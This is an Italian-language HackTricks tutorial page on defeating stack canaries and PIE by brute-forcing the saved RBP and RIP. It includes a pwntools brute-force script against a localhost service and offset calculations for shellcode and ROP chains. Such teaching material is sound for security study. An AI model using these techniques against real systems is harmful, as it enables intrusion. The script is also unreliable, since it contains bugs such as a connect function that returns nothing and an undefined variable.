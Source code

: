 # Indirizzi BF nello Stack

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Se ti trovi di fronte a un binario protetto da un canary e da PIE (Position Independent Executable) probabilmente devi trovare un modo per aggirarli.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Nota che **`checksec`** potrebbe non trovare che un binario è protetto da un canary se è stato compilato staticamente e non è in grado di identificare la funzione.\
Tuttavia, puoi notarlo manualmente se trovi che un valore viene salvato nello stack all'inizio di una chiamata di funzione e questo valore viene controllato prima di uscire.
{% endhint %}

## Indirizzi Brute-Force

Per **aggirare la PIE** devi **leakare alcuni indirizzi**. E se il binario non sta leakando nessun indirizzo, il meglio da fare è **forzare il RBP e il RIP salvati nello stack** nella funzione vulnerabile.\
Ad esempio, se un binario è protetto utilizzando sia un **canary** che **PIE**, puoi iniziare a forzare il canary, poi i **successivi** 8 byte (x64) saranno il **RBP** salvato e i **successivi** 8 byte saranno il **RIP** salvato.

{% hint style="success" %}
Si suppone che l'indirizzo di ritorno all'interno dello stack appartenga al codice binario principale, che, se la vulnerabilità si trova nel codice binario, sarà di solito il caso.
{% endhint %}

Per forzare il RBP e il RIP dal binario puoi capire che un byte indovinato valido è corretto se il programma produce un output o semplicemente non va in crash. La **stessa funzione** fornita per forzare il canary può essere utilizzata per forzare il RBP e il RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
L'ultima cosa di cui hai bisogno per sconfiggere il PIE è calcolare **indirizzi utili dagli indirizzi trapelati**: il **RBP** e il **RIP**.

Dal **RBP** puoi calcolare **dove stai scrivendo il tuo shell nello stack**. Questo può essere molto utile per sapere dove scriverai la stringa _"/bin/sh\x00"_ all'interno dello stack. Per calcolare la distanza tra il RBP trapelato e il tuo shellcode puoi semplicemente mettere un **breakpoint dopo aver trapelato il RBP** e controllare **dove si trova il tuo shellcode**, quindi puoi calcolare la distanza tra il shellcode e il RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Dal **RIP** è possibile calcolare l'**indirizzo di base del file binario PIE** di cui avrai bisogno per creare una **catena ROP valida**.\
Per calcolare l'indirizzo di base basta eseguire `objdump -d vunbinary` e controllare gli ultimi indirizzi disassemblati:

![](<../../../.gitbook/assets/image (479).png>)

In quell'esempio puoi vedere che sono necessari solo **1 byte e mezzo** per individuare tutto il codice, quindi, l'indirizzo di base in questa situazione sarà il **RIP leakato ma terminante in "000"**. Ad esempio, se hai leakato `0x562002970ecf`, l'indirizzo di base sarà `0x562002970000`.
```python
elf.address = RIP - (RIP & 0xfff)
```
## Miglioramenti

Secondo [**alcune osservazioni da questo post**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), è possibile che quando si rilasciano i valori RBP e RIP, il server non si blocchi con alcuni valori che non sono quelli corretti e lo script BF penserà di aver ottenuto quelli giusti. Questo perché è possibile che **alcuni indirizzi semplicemente non lo rompano anche se non sono esattamente quelli corretti**.

Secondo quel post del blog, è consigliabile aggiungere un breve ritardo tra le richieste inviate al server.
